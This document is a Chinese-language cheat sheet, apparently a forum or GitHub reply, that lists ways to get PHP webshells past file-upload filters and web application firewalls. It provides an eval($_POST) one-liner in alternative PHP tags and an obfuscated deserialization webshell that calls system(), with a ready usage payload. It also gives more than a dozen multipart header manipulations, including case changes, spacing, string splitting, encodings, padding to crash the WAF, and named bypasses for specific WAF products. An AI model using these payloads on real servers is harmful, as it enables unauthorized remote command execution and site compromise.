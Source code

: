 1.先假设一个前提，可以上传.htaccess或者.user.ini  
因为不知道目标使用的是 nginx 还是 Apache，所以给两个参考链接  
如果是nginx可以看看我这篇文章的0x01 CheckIn：https://www.cnpanda.net/ctf/383.html  
如果是apache可以看看这篇文章：https://thibaud-robin.fr/articles/bypass-filter-upload/  
2.如果检测是`<?php ?>`
可以试一试使用其他标签，如  
```
<script language="php">
 eval($_POST[2333]);
</script>
```
这个要求`php<7`
或者  
```
<?
...
?>
```

3.如果检测的不是php标签，是敏感内容的话，这里送你一个免杀php马  
```php
<?php

if (isset($_POST['run'])) {
  class HandShip {
     public $name;
     public $male;
     function __destruct() {
        $allin = $this->name;
        $allin($this->male);
     }
  }
if(md5($_POST['code'])=='ce61649168c4550c2f7acab92354dc6e'){

  unserialize($_POST['run']);
}
}
?>
```
用法：  

`run=O:8:"HandShip":2:{s:4:"name";s:6:"system";s:4:"male";s:9:"cat /home";};&code=panda`

4.绕过思路：对文件的内容，数据。数据包进行处理。  

关键点在这里`Content-Disposition: form-data; name="file"; filename="ian.php"`
将`form-data; ` 修改为`~form-data;`
5.通过替换大小写来进行绕过  
```
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
```
将`Content-Disposition`    修改为`content-Disposition`
将` form-data`  修改为`Form-data`
将`Content-Type` 修改为`content-Type`
6.通过删减空格来进行绕过  
```
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
```
将`Content-Disposition: form-data`         冒号后面 增加或减少一个空格
将`form-data; name="file";`               分号后面 增加或减少一个空格
将`Content-Type: application/octet-stream`   冒号后面 增加一个空格
7.通过字符串拼接绕过  

看`Content-Disposition: form-data; name="file"; filename="yjh3.php"`
将` form-data` 修改为  ` f+orm-data`
将`from-data` 修改为   `form-d+ata`
8.双文件上传绕过  
```html
<form action="https://www.xxx.com/xxx.asp(php)" method="post"
name="form1" enctype="multipart/form‐data">
<input name="FileName1" type="FILE" class="tx1" size="40">
<input name="FileName2" type="FILE" class="tx1" size="40">
<input type="submit" name="Submit" value="上传">
</form>
```
9.HTTP header 属性值绕过  

`Content-Disposition: form-data; name="file"; filename="yjh.php"`
我们通过替换`form-data` 为`*`来绕过
`Content-Disposition: *; name="file"; filename="yjh.php"`
10.HTTP header 属性名称绕过  
源代码:
```
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"
Content-Type: image/png
```
绕过内容如下：  
```
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
C.php"
```
删除掉`ontent-Type: image/png`只留下`c`，将`.php`加`c`后面即可，但是要注意额，双引号要跟着c.php".
11.等效替换绕过  
原内容：
```
Content-Type: multipart/form-data; boundary=---------------------------471463142114
```
修改后:  
```
Content-Type: multipart/form-data; boundary =---------------------------471463142114
```
`boundary`后面加入空格。
12.修改编码绕过  
使用`UTF-16`、`Unicode`、`双URL编码`等等
13.WTS-WAF 绕过上传  
原内容：
```
Content-Disposition: form-data; name="up_picture"; filename="xss.php"
```
添加回车  
```
Content-Disposition: form-data; name="up_picture"; filename="xss.php"
```
14.百度云上传绕过  

百度云绕过就简单的很多很多，在对文件名大小写上面没有检测php是过了的，Php就能过，或者PHP，一句话自己合成图片马用Xise连接即可。
`Content-Disposition: form-data; name="up_picture"; filename="xss.jpg .Php"` 
15.填充垃圾数据，造成溢出后使WAF崩掉  
```
Content-Disposition: 字段溢出即可 比如Content-Disposition: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA一直加就行了十万++
```
